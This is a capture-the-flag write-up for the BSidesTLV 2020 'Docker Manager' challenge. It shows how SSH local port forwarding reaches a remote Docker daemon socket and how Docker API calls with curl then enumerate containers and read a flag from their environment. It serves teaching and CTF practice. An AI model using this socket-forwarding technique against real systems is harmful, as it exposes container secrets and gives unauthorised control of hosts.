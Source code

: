 # Docker Manager
* Category: Misc.
* 350 Points
* Solved by the JCTF Team

## Description
> At Last!
> 
> We got the SSH credentials, Can you hack it and send us the password?
> 
> URL: ssh://bsidestlv:d0ck3rm4n4g3r@docker-manager.ctf.bsidestlv.com:8000


## Solution

We connect to SSH server using `sshpass -p 'd0ck3rm4n4g3r' ssh bsidestlv@docker-manager.ctf.bsidestlv.com -p 8000` and immediate get the following screen:

![](images/docker.png)

In this screen we can try to enter a password, however we don't know what the correct password is.

We can't seem to kill this application or execute anything interesting within it.

At some point, the following hint was published by the organizers:

> SSH + Docker = :broken_heart:

Indeed! using SSH Tunneling we can expose the [Docker Deamon Socket](https://docs.docker.com/engine/reference/commandline/dockerd/#daemon-socket-option) which allows using the Docker API.

We can create the tunnel by running the following command:
```
root@kali:/media/sf_CTFs/bsidestlv/Docker_Manager/docker# sshpass -p 'd0ck3rm4n4g3r' ssh -N -L localhost:9999:/var/run/docker.sock bsidestlv@docker-manager.ctf.bsidestlv.com -p 8000
```

This means that when we access our localhost at port 9999, the request will be tunneled to the remote host at port `/var/run/docker.sock`. 

Let's try this:
```console
root@kali:/media/sf_CTFs/bsidestlv/Docker_Manager/docker# curl -s http://localhost:9999/version | python -m json.tool
{
    "ApiVersion": "1.40",
    "Arch": "amd64",
    "BuildTime": "2020-03-11T01:29:16.000000000+00:00",
    "Components": [
        {
            "Details": {
                "ApiVersion": "1.40",
                "Arch": "amd64",
                "BuildTime": "2020-03-11T01:29:16.000000000+00:00",
                "Experimental": "false",
                "GitCommit": "afacb8b",
                "GoVersion": "go1.12.17",
                "KernelVersion": "4.19.104-microsoft-standard",
                "MinAPIVersion": "1.12",
                "Os": "linux"
            },
            "Name": "Engine",
            "Version": "19.03.8"
        },
        {
            "Details": {
                "GitCommit": "7ad184331fa3e55e52b890ea95e65ba581ae3429"
            },
            "Name": "containerd",
            "Version": "v1.2.13"
        },
        {
            "Details": {
                "GitCommit": "dc9208a3303feef5b3839f4323d9beb36df0a9dd"
            },
            "Name": "runc",
            "Version": "1.0.0-rc10"
        },
        {
            "Details": {
                "GitCommit": "fec3683"
            },
            "Name": "docker-init",
            "Version": "0.18.0"
        }
    ],
    "GitCommit": "afacb8b",
    "GoVersion": "go1.12.17",
    "KernelVersion": "4.19.104-microsoft-standard",
    "MinAPIVersion": "1.12",
    "Os": "linux",
    "Platform": {
        "Name": "Docker Engine - Community"
    },
    "Version": "19.03.8"
}
```

We have contact! Now, let's enumerate the containers:
```console
root@kali:/media/sf_CTFs/bsidestlv/Docker_Manager/docker# curl -s http://localhost:9999/containers/json | python -m json.tool
[
    {
        "Command": "docker-entrypoint.sh /usr/sbin/sshd -D",
        "Created": 1593249326,
        "HostConfig": {
            "NetworkMode": "docker-manager_default"
        },
        "Id": "ca3b76fc5a79dbfaffa9c11456d5ccecd43f03f37e8cfdb7becc27cc59ed3f1d",
        "Image": "docker-manager_challenge",
        "ImageID": "sha256:f2def1180f982e1c9955725a219ce8532d305ae6e01e66c9643f7dbe0c3ad8f7",
        "Labels": {
            "com.docker.compose.config-hash": "0345033b5a07fe9cd165abbf678cd54dbc8a05ae93d1f715eafab117973e436c",
            "com.docker.compose.container-number": "1",
            "com.docker.compose.oneoff": "False",
            "com.docker.compose.project": "docker-manager",
            "com.docker.compose.project.config_files": "docker-manager/docker-compose.yml",
            "com.docker.compose.project.working_dir": "/mnt/e/Projects/BSidesTLVCTF/ctf20/dockerfiles/docker-manager/api/docker-manager",
            "com.docker.compose.service": "challenge",
            "com.docker.compose.version": "1.25.5",
            "desktop.docker.io/wsl-distro": "Ubuntu-20.04"
        },
        "Mounts": [
            {
                "Destination": "/var/run/docker.sock",
                "Mode": "rw",
                "Propagation": "rprivate",
                "RW": true,
                "Source": "/run/desktop/mnt/host/wsl/docker-desktop-bind-mounts/Ubuntu-20.04/71329c4cc6e32171553fa81d044eb31d1a3aac52ba9376c4a99f4505c494cf5b",
                "Type": "bind"
            }
        ],
        "Names": [
            "/docker-manager_challenge_1"
        ],
        "NetworkSettings": {
            "Networks": {
                "docker-manager_default": {
                    "Aliases": null,
                    "DriverOpts": null,
                    "EndpointID": "d51f6464dfb631039c8a278f671cf68ae2615048f4f279d9ee1a761397871179",
                    "Gateway": "172.29.0.1",
                    "GlobalIPv6Address": "",
                    "GlobalIPv6PrefixLen": 0,
                    "IPAMConfig": null,
                    "IPAddress": "172.29.0.2",
                    "IPPrefixLen": 16,
                    "IPv6Gateway": "",
                    "Links": null,
                    "MacAddress": "02:42:ac:1d:00:02",
                    "NetworkID": "0f2a5ae4391f59b48cb8a5dd2344b2b304bea6a3497c8ab0fd0cbc3029616c4e"
                }
            }
        },
        "Ports": [
            {
                "IP": "0.0.0.0",
                "PrivatePort": 22,
                "PublicPort": 2222,
                "Type": "tcp"
            }
        ],
        "State": "running",
        "Status": "Up Less than a second"
    }
]
```

We have one container, let's view its details and search for the flag:
```console
root@kali:/media/sf_CTFs/bsidestlv/Docker_Manager/docker# curl -s http://localhost:9999/containers/ca3b76fc5a79dbfaffa9c11456d5ccecd43f03f37e8cfdb7becc27cc59ed3f1d/json | python3 -m json.tool | grep -i bsides
            "FLAG=BSidesTLV2020{SSH_F0RWARD1NG_F0R_FUN_4ND_PR0F1T}"
            "com.docker.compose.project.working_dir": "/mnt/e/Projects/BSidesTLVCTF/ctf20/dockerfiles/docker-manager/api/docker-manager",
```

The flag: `BSidesTLV2020{SSH_F0RWARD1NG_F0R_FUN_4ND_PR0F1T}`